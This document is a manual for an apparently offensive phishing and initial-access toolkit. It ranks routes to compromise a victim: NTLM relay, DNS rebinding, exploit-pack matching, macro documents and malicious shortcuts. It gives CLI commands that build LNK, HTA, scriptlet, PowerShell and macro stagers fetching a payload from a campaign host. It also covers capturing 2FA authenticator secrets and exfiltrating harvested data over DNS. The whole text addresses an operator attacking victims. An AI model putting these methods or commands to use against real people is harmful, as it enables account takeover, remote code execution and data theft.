

# Click-to-access

One click is worth what the victim's own environment allows. This document covers the
decision matrix that ranks those paths, the artifact builders that serve them, the
exploit-pack registry, the soft-2FA capture, and the DNS channel. Everything here is
reachable from the CLI; `--capabilities` prints which modules the tree can import.



## The decision matrix

`core/decision.py` reads a facts mapping and returns every path with a confidence label
and the precondition it is waiting on:

| Label | Meaning |
|---|---|
| `CONFIRMED` | every precondition is present in the facts as given |
| `SUSPECTED` | one precondition is unknown (a policy, a reachability, a target) |
| `FAILED` | a fact rules the path out (wrong OS, no relay target, no pack match) |

`CONFIRMED` means the preconditions are met, not that the path was executed. `ready` and
`payoff` are separate fields for that reason: `payoff` is what the path is worth
(`session`, `host-access`, `domain-access`, `channel`), and it is the operator who runs it
and reads the evidence.

The label belongs to the scope the module reasons about. `core.decision` judges a whole path,
so `T2_ntlm_relay` is `SUSPECTED` until a host that ACCEPTS the relayed authentication is
known. `core.mshtml` judges one trigger, so its object page is `CONFIRMED` once the trigger
fires and a listener is ready; it holds that candidate at `SUSPECTED` when the facts say there
is no target, so the two never contradict each other. `core.stager.deliver_plan` judges what
can be BUILT, which is why it offers a bash stager for a macOS victim while `decision` reports
no access path for that victim.

| Path | Payoff | Preconditions |
|---|---|---|
| `T2_ntlm_relay` | domain-access | Windows host, a listener answering `401` with `WWW-Authenticate: NTLM`, a relay target that accepts the authentication |
| `T1_intranet` | host-access | a local service the victim's browser can reach, and the rebinding responder |
| `T3_exploitpack` | host-access | a pack entry that matches the fingerprint, and its payload on disk |
| `T4_macro` | host-access | Windows, macros enabled by policy, the victim opening the document |
| `T5_file` | host-access | Windows, the victim opening the shortcut or scriptlet, script-host policy |
| `C1_dns` | channel | filtered egress and the authoritative responder for the zone |

Facts may be supplied as a JSON object, a `@file`, a bare OS name, or `latest` to derive
what the newest device dump states:

```bash
# explicit facts
./.venv/bin/python bytephisher.py --access-plan \
  '{"os":"windows","browser":"MSIE","http_ntlm_relay_ready":true,"relay_target":true}'

# what the newest device dump says (os, browser, version only - a user agent is not a LAN inventory)
./.venv/bin/python bytephisher.py --access-plan latest
```

`--access-plan latest` fills in only what the record states. The relay, rebind and policy
facts stay unset, so the matrix reports them as missing instead of assuming them. The
user-agent parsing handles the cases that matter in practice: an iPhone agent also says
"Mac OS X" and an Android agent also says "Linux", so device families are matched before
desktop names, and an Edge agent also says "Chrome", so the specific client is matched
before the tokens it imitates.

## Building the artifacts

`core/ctso.py` turns a verdict into files in one directory, plus `manifest.json`:

```bash
./.venv/bin/python bytephisher.py --access-build out/q3 \
    --access-facts latest \
    --access-url https://campaign.example/trig \
    --access-payload https://campaign.example/p.ps1 \
    --access-zone c.example
```

| Artifact | Module | Needs |
|---|---|---|
| `trigger.html`, `trigger.url` | `core/mshtml.py` | `--access-url` |
| `payload.lnk`, `payload.hta`, `payload.sct` | `core/mshtml.py` + `core/stager.py` | `--access-payload` |
| `payload.docm` | `core/vba.py` | `--access-payload` |
| `stager.js`, `stager.ps1` | `core/stager.py` | `--access-payload` |
| `pack_entry.json` | `core/exploitpack.py` | nothing |
| `intranet.json` | `core/exploits.py` | nothing |
| `dns_plan.json` | `core/dnsx.py` | `--access-zone` |

Each artifact record carries a status, and the status is what the manifest is read for:

| Status | Meaning |
|---|---|
| `built` | written, with its size and SHA-256 in the manifest |
| `needs-input` | the named input was not supplied, so nothing was written |
| `skipped` | the capability module is absent or the builder refused, with the reason |

File names come from the recipe table, never from input, so a hostile value in the facts
cannot steer a write out of the output directory. A builder that raises is recorded as
`skipped` with its message and the other artifacts still build.

`operator_steps` in the manifest lists the concrete next action for every ready path -
starting the relay listener, delivering the document, placing the pack payload, running
the responder. A path with no next step is a path nobody runs.

## Single artifacts

`--artifact KIND` builds one file and prints it, or writes it with `--artifact-out`:

| Kind | Output |
|---|---|
| `object` | a page whose hidden sub-resource makes MSHTML issue the NTLM handshake |
| `url` | an Internet shortcut (binary; needs `--artifact-out`) |
| `lnk` | an MS-SHLLINK shortcut that runs the PowerShell stager (binary) |
| `hta`, `sct` | an HTML application and a scriptlet that fetch the stager |
| `js`, `ps`, `vba`, `bash`, `lnkcmd` | the stager text for each platform |
| `docm` | a macro document (binary; `--artifact-template` injects into your own) |
| `dnsplan`, `intranet`, `pack` | the JSON plans and tables |

```bash
./.venv/bin/python bytephisher.py --artifact ps --artifact-url https://x/p.ps1
./.venv/bin/python bytephisher.py --artifact docm --artifact-url https://x/p.ps1 \
    --artifact-template reference/blank.docm --artifact-out out/payload.docm
```

## The NTLM trigger artifacts

`core/mshtml.py` builds what makes a victim's own machine authenticate to a listener you
control:

| Builder | What it is |
|---|---|
| `object_page(url)` | an HTML page whose hidden sub-resource points at the trigger URL, so MSHTML speaks NTLM to it. It carries no collector, no session cookie and no `__bh` route |
| `url_shortcut(target)` | the `.url` Internet shortcut (INI) |
| `lnk(command, arguments=...)` | an MS-SHLLINK binary with a real `LinkTargetIDList`, a My-Computer root shell item and `0x32` file entries |
| `hta(url)`, `sct(url)` | an HTML application and a Windows Script Component |

The relay target is what makes T2 worth anything: the trigger produces an authentication,
and `core/relay.py` relays it to something that accepts it (AD CS ESC8, a host that
accepts NTLM). Without such a target the path is recorded `SUSPECTED` and the missing
piece is named.

## The exploit pack

`core/exploitpack.py` is a matcher and loader, not an exploit library. `PACK` holds
entries as data, each with a CVE, a product, version ranges, a delivery kind, a payload
path relative to the pack directory, a confidence label and a source. It ships no
weaponized payload: `verify()` reports that nothing is on disk until the operator places
the files, and the only entry with a payload a test touches is a demo that proves the
delivery path.

```bash
./.venv/bin/python bytephisher.py --pack-list
./.venv/bin/python bytephisher.py --pack-match chrome:91
./.venv/bin/python bytephisher.py --pack-verify /path/to/pack
./.venv/bin/python bytephisher.py --pack-report /path/to/pack
```

A version spec is `<=N`, `>=N`, `N-M`, `N` or `*`. A degenerate range (`9-9`, `18-9`)
raises rather than silently matching or disabling the entry, and an unknown product or an
unknown version returns no match rather than a guess. `load_pack` refuses an absolute or
traversing payload path: a pack file is operator-supplied input and must not be able to
write outside its directory.

## Soft-2FA

`core/totp.py` handles the secrets and codes behind an authenticator app.

| Function | Use |
|---|---|
| `parse_otpauth(uri)` | read a `otpauth://` key URI into secret, issuer, account, digits, period, algo |
| `hotp(secret, counter)` | RFC 4226 |
| `code(secret, at)` | RFC 6238; `codes_in_window` returns the neighbours so a 30-second window is usable |
| `weak_secret_scan(code, at, space=...)` | search a low-entropy secret space for the secret behind an observed code |

```bash
./.venv/bin/python bytephisher.py --totp-code GEZDGNBVGY3TQOJQGEZDGNBVGY3TQOJQ --totp-at 59
./.venv/bin/python bytephisher.py --totp-uri "otpauth://totp/ACME:alice@acme.test?secret=...&issuer=ACME"
./.venv/bin/python bytephisher.py --totp-scan 622752 --totp-at 1700000000 --totp-space dec6
```

The scan is bounded: `dec6` (10^6) sits exactly at the documented cap, `dec8` (10^8) is
refused. A six-digit code does not reveal the secret; the scan recovers only a secret that
was low-entropy to begin with. The real win is capturing the secret itself - the enrolment
QR, the `otpauth://` URI, or the manual key - which then produces codes indefinitely.
`--totp-uri` describes a URI without printing the secret, and no secret is ever placed in
an exception message.

## The DNS channel

`core/dnsx.py` encodes harvested data into DNS queries for a victim whose egress is
filtered. It is a channel, not access: it ranks last on purpose and is labelled `channel`.

| Function | Use |
|---|---|
| `encode_labels(data)` / `decode_labels(labels)` | base32hex (RFC 4648 section 7), lowercase, no padding, labels of at most 63 characters |
| `query_plan(data, zone)` | the ordered query names, the chunk count, bytes per query and the retry behaviour |
| `decode_session(queries, zone)` | reassemble from what a resolver saw, deduping retries and refusing a gap |
| `records_for(qname, store)` | records in the shape `core/rebind.py`'s authoritative responder answers with |
| `beacon(data, zone)` | a nonce-tagged beacon so the operator can tell beacons from exfil |

```bash
./.venv/bin/python bytephisher.py --dnsx-encode "hello world" --access-zone c.example
./.venv/bin/python bytephisher.py --dnsx-plan beacon --access-zone c.example
./.venv/bin/python bytephisher.py --dnsx-decode "0.d1imor3f41rmusjccg.c.example" --access-zone c.example
```

Throughput is the constraint: about 39 bytes per 63-character label, and a realistic
resolver rate is a few queries per second. Intermediate resolvers cache, a chunk can be
lost, and any DNS logging sees the whole exchange. It exists for a filtered-egress victim,
not as a primary channel.

## The macro document

`core/vba.py` builds a macro-enabled Word document in pure Python: MS-OVBA
copy-compression (`ovba_compress` / `ovba_decompress`), a minimal MS-CFB writer (`cfb`),
the VBA project container (`vba_project`) and the OOXML package (`docm`). The container is
verified against an independent parser: `oletools` extracts the module source from the
generated file in the test suite, behind `pytest.importorskip`.

Two facts decide whether it works: the victim has to open the document with macros
enabled (a policy the module cannot lift, and often blocked by default), and a synthetic
project is a weaker bet than injecting into a working template. That is why
`--artifact-template` exists: it copies your own macro-enabled document and swaps only
`word/vbaProject.bin`.

## Limits

| Limit | Cause |
|---|---|
| MFA is relayed, never bypassed | every path here relays an authentication the victim performs |
| The relay path needs a relay target | an authentication nobody accepts is a logged event, not access |
| A macro needs macros enabled | Protected View and the Trust Center macro block are policy, not code |
| The pack ships no payloads | it matches and serves operator-supplied proof-of-concept files |
| A browser cannot run a native payload | the JS stager fetches and hands the file over; it does not execute it |
| DNS is slow and visible | tens of bytes per query, cached, logged |
| A six-digit code is not a secret | only a low-entropy secret is recoverable from a code |
